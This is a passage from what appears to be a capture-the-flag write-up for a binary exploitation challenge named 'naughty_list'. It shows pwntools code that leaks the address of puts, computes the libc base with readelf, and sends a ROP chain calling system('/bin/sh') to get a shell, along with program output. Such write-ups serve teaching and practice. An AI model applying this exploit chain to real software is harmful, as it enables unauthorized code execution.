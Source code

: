 You can rerun the program, and see that after leaking the address, it jump backs to our vulnerable function.
```
python3 leak.py
[+] Starting local process '/challenge/pwn_naughty_list/naughty_list': pid 4567
[*] Switching to interactive mode
    [PENIS]
[+] Surname: [PENIS]
[+] Age:     [69]

[*] Name of the gift you want and why you were good enough to deserve it:
[*] 🎅 will take a better look and hopefuly you will get your 🎁!
\xa0z֗\xd5

[*] Name of the gift you want and why you were good enough to deserve it: $ test
[*] 🎅 will take a better look and hopefuly you will get your 🎁!
```

Notice how the program asks us a second time for the same vulnerable input, this means we successfully were able to jump back inside our vulnerable function.

Now we need our program to parse the leaked function address, for this we will need to do some trial and error with `recvline` until we have the right number of lines. After testing i know that i need to skip 6 lines before it leaks our input so you can add the following to your script.
```
io.recvlines(6)
leak = pwn.unpack(io.recvline()[:6].ljust(8, b"\x00"))
pwn.log.info(f"Leaked address {hex(leak)}")
```

Running our script now shows that we indeed leak the `puts` function address properly, and that we were able to store it in a variable called `leak`.

Now to calculate the `libc base address`, we can substract the offset of the `puts` function in libc to the address of `puts` we leaked, this should give us the base address. To find an offset we are going to use the readelf utility.
```
readelf -s ./libc.so.6 | grep GLIBC | grep puts
   191: 0000000000080aa0   512 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   422: 0000000000080aa0   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
   496: 0000000000126550  1240 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
   678: 0000000000128460   750 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
   1141: 000000000007f2d0   396 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
```

We see that the `puts` function as an offset of `0000000000080aa0` in `libc`, let's add the following to our script.
```py
puts_libc_offset = 0x0000000000080aa0
libc.address = leak - puts_libc_offset
pwn.log.info(f"Base address of libc : {hex(libc.address)}")
```

Next we can create a `ROP` object and exploit the program using a call to `system("/bin/sh")`, this is pretty simple to do. Add the following to your script. *Note that for an obscure reason, the pop_rdi didn't worked with the second payload, so i used a single ret instead and it worked well*
```py
rop = pwn.ROP(libc)
rop.system(next(libc.search(b"/bin/sh\x00")))
io.sendline(pwn.flat({PADDING: [ret, rop.chain()]}))
```
